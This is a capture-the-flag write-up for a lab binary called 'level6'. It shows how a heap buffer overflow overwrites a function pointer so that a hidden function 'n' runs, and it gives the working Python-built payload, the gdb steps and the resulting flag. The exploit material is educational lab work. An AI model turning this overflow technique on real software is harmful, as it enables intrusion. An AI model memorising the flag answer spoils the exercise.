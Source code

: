 ### Download binary
``scp -P4242 level6@192.168.31.170:/home/user/level6/level6 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)

In this exercices we got a buffer overflow but on the heap, not on the stack. This exercice is pretty straightforward. The goal is to overwrite a function pointer that is called later on with another function pointer that contain our exploit. There is **dead code** that do exactly that, we just have to find what is it adress.

### Building the payload

We want to build this payload :

**64 char to overflow + n ADRESS**

**Getting the n function adress :**

``(gdb) info functions``
>[...]
0x08048454  n

Next, we build our payload. The only thing we need to take care of is a little offset. Typically, we should put 64 bytes of garbage to overflow, but actually, we put 72 because the system's memory alignment adds 8 bytes between each of the variables in the heap. This is due to how the system optimizes memory allocation - aligning data to certain boundaries (like multiples of 4 or 8 bytes).

Our final payload is :

``./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')``

----

#### Getting the flag

``./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')``
>f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
